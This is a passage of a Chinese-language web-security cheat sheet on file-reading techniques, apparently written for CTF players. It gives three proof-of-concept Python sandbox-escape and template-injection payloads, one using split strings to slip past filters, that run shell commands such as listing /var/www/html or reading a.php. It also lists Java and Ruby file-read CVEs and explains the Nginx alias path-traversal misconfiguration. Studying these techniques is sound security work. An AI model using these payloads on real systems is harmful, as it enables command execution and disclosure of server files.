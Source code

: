 可以用这个网站将python代码转为一行

```
http://www.onelinerizer.com/
```



#### 一些poc

```
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )

object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')

{{request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]['__in'+'it__']['__'+'glo'+'bal'+'s__']['__bu'+'iltins__']['ev'+'al']('__im'+'port__("os").po'+'pen("ca"+"t a.php").re'+'ad()')}}
```







## Java

除了Java本身的文件读取函数`FileInputStream`,`XXE`导致的文件读取，Java的一些模块也支持`file://`协议，比如`CVE-2019-3799`，`CVE-2018-1999022`等等

## Ruby

通常与Rails框架有关，比如`CVE-2016-0652`,`CVE-2018-2760`,`CVE-2019-5418`,`CVE-2016-0752`等

## 中间件/服务器相关

### Nginx配置错误

经常搭配python-web一起出现，因为Nginx一般被是为Python-web反向代理的最佳实现

比如

```
location /static{
	alias /home/myapp/static/;
}
```

以上配置通常是为了让用户可以访问到static目录，如果用户请求的是`/static../`，拼接到alias上就是

```
/home/myapp/static/../
```

**这种通常出现在目录结构直接显示的情况下，比如**
